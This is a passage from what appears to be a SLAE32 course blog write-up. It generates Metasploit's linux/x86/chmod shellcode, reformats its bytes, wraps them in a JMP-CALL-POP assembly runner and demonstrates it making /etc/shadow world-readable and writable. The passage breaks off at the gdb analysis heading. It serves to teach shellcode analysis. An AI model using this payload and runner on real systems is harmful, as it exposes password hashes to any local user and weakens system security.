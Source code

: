 ```yaml
---
title: SLAE32 Assignment 5.2 -- Analyzing MSFVenom `linux/x86/chmod` Shellcode
date: 2019-9-15
layout: single
classes: wide
tags:
  - msfvenom
  - metasploit
  - chmod
  - assembly
  - SLAE
  - linux
  - x86
  - shellcode
--- 
```

![](/assets/images/SLAE32.png)
## Overview

## Preparing the Shellcode for `gdb` & `disasm` Analysis
### Generating the `chmod` Shellcode
+ We will export the shellcode to the python format.
  -  This will allow us to add the shellcode to our python script for formatting.
+ Once we generate the correct format for our shellcode, we will add it to our `JMP|Call|POP` assembly program.
  - This will allow us to easily analyze the shellcode with `gdb` and `disasm`.

```console
root@zed# msfvenom -p linux/x86/chmod --format python 2>/dev/null | \
> egrep "^buf " | sed -e 's/buf /sc /g'
sc =  ""
sc += "\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74"
sc += "\x63\x2f\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01"
sc += "\x00\x00\x59\xcd\x80\x6a\x01\x58\xcd\x80"
```
### Formatting the Shellcode for Assembly Compilation
+ We will copy the `sc` python variable generated above, and add it to our python script.
+ Typically `msfvenom` generates the shellcode in the `\x99` we see above.
+ We need the shellcode to be in the `0x99,` format.
  - Assembly requires we use the `0x99,` format for assigning a hex string to memory.
#### Our Python Script to Format the Hex Code
```python
#!/usr/bin/python
# Filename: formatHex.py
# Author:   boku
# Purpose:  A python script that converts the '\x' format to '0x ,'

# Add the shellcode hex here.
sc =  ""
sc += "\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74"
sc += "\x63\x2f\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01"
sc += "\x00\x00\x59\xcd\x80\x6a\x01\x58\xcd\x80"

output = ""
print 'Encoded shellcode ...'
for x in bytearray(sc) :
        output += '0x'
        output += '%02x,' %x
print output
```

#### Generating the Hex in the `0x ,` Format
+ The `\<Return>` at the end was added after for formatting.
  - This format does work when compiling shellcode with `nasm`.
  - Nasm does not seem to care about `<space>` characters either.

```console
root# python formatHex.py
Encoded shellcode ...
0x99,0x6a,0x0f,0x58,0x52,0xe8,0x0c,\
0x00,0x00,0x00,0x2f,0x65,0x74,0x63,0x2f,0x73,\
0x68,0x61,0x64,0x6f,0x77,0x00,0x5b,0x68,0xb6,\
0x01,0x00,0x00,0x59,0xcd,0x80,0x6a,0x01,0x58,\
0xcd,0x80
```
### Adding the Shellcode to our `JMP|Call|POP` Assembly Program
+ To get nasm syntax highlighting in Vim I used the command `:set syn=nasm`.

```nasm
; Filename: jmpCallPop.nasm
; Author:  Bobby Cooke
global _start
section .text
_start:
; 1. Jump to where our Shellcode string is
  jmp short call_shellcode
decoder:
  pop esi
jmp2_shellcode:
; 3. Now that the memory location of our string is on the top of the
;     stack, we will pass control to it using the jmp instruction.
  pop eax
  jmp eax
call_shellcode:
; 2. Call to the instruction that will jump us into our Shellcode
;    - Call is like jump, but stores the memory location of the next
;       instruction onto the Stack; which is our Shellcode.
  call jmp2_shellcode
  shellcode: db 0x99,0x6a,0x0f,0x58,0x52,0xe8,0x0c,\
      0x00,0x00,0x00,0x2f,0x65,0x74,0x63,0x2f,0x73,\
      0x68,0x61,0x64,0x6f,0x77,0x00,0x5b,0x68,0xb6,\
      0x01,0x00,0x00,0x59,0xcd,0x80,0x6a,0x01,0x58,\
      0xcd,0x80
```
### Compiling our `JMP|Call|POP` Shellcode
```console
root# nasm -f elf32 jmpCallPop.nasm -o jmpCallPop.o
root# ld jmpCallPop.o -o jmpCallPop
```
### Testing our `chmod` Shellcode
+ We can see what the `chmod` Shellcode will do with the command.
+ We see that the default payload will change the file `/etc/shadow` to the permissions `rw-rw-rw-`.

```console
root# msfvenom --payload linux/x86/chmod --list-options
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
FILE  /etc/shadow      yes       Filename to chmod
MODE  0666             yes       File mode (octal)

Description:
  Runs chmod on specified file with specified mode
```
root# ls -l /etc/shadow
-rw-r----- 1 root shadow 1074 Sep  3 11:17 /etc/shadow
root# ./jmpCallPop
root# ls -l /etc/shadow
-rw-rw-rw- 1 root shadow 1074 Sep  3 11:17 /etc/shadow
```
Great! Our payload works as intended. Now lets set a breakpoint and analyze the shellcode with `gdb`.

## Analyzing the Shellcode with `gdb`
